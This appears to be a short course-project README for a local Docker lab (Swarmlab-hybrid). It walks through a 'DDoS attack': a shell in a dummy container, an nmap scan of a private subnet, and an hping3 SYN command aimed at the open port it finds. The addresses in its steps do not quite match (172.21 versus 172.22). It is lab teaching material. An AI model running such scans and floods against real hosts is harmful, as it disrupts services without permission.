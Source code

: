 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal

  cd swarmlab-hybrid

  ./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect -> Run in terminal "docker exec -it dummy_service /bin/sh"

3) After that we proceed inside the terminal by typing the following commands
$ docker exec -it dummy_service /bin/sh
$ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )
$ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001
$ sudo hping3 -S 172.22.0.2 -p 3001
